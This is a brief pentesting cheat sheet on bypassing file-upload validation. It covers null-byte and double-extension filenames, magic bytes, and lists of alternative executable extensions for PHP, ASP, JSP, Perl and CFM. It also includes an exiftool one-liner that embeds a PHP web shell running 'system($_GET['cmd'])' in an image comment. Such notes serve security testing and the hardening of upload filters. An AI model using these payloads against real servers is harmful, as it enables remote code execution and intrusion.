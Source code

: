 ## Bypass Validations 
- Null Byte: `%00` to bypass file name restrictions (`wpes.php%00.png`)
- Double Extensions: `wpes.png.php`
- Altering content type
- Magic number: (Example: gif: `GIF89a;`)
  - <https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/>
- Code in image comment:
  - `exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`

## Alternative Extensions 

PHP
- pht
- phpt
- phtml
- php3
- php4
- php5
- php6
- php7

CFM
- cfml
- cfc
- dbm

ASP
- aspx

Perl
- pl
- pm
- cgi
- lib

JSP
- jspx
- jsw
- jsv
- jspf

